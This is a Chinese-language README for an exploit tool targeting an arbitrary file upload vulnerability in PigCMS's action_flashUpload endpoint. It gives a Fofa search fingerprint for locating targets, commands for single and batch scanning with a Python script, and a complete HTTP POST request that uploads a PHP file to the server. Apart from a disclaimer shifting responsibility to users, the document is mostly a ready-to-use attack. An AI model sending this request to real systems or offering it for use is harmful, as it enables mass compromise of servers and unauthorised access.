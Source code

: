 # PigCMS action_flashUpload 任意文件上传漏洞

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## Fofa指纹

app="PigCMS"

## 工具利用

python3 PigCMS_fileupload.py -u http://127.0.0.1:1111 单个url测试

python3 PigCMS_fileupload.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：
![](./poc.jpg)
![](./exp.jpg)

## exp

```
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.2840.80 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----aaa
Content-Length: 134

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php print "qaxnb123";?>
------aaa
```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
